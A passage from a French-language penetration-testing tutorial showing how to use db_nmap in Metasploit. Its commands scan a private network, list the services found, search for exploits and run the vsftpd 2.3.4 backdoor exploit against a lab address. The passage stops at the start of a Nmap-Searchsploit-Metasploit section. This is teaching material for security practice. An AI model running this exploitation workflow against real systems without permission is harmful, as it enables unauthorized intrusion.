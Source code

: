 #### Utilisation de `db_nmap` dans Metasploit

```bash
# Lancer Metasploit
sudo msfconsole

# Vérifier la connexion à la base de données
msf6 > db_status

# Scanner avec db_nmap
msf6 > db_nmap -sV 192.168.1.1

# Voir les hôtes découverts
msf6 > hosts

# Voir les services découverts
msf6 > services

# Filtrer les services
msf6 > services -p 21-25,80,443

# Rechercher des exploits pour les services découverts
msf6 > search type:exploit name:apache httpd 2.4
```

#### Workflow complet dans Metasploit

```bash
# Lancer Metasploit
sudo msfconsole

# Scanner un réseau
msf6 > db_nmap -sV -sS -T4 192.168.1.0/24

# Identifier les cibles potentielles
msf6 > services -p 21,22,80,443

# Sélectionner un exploit
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# Configurer l'exploit
msf6 > set RHOSTS 192.168.1.10
msf6 > set RPORT 21

# Exécuter l'exploit
msf6 > exploit
```

### Chaîne Nmap → Searchsploit → Metasploit

Cette chaîne d'outils permet d'identifier et d'exploiter des vulnérabilités de manière méthodique.

#### Exemple avec VSFTPD 2.3.4
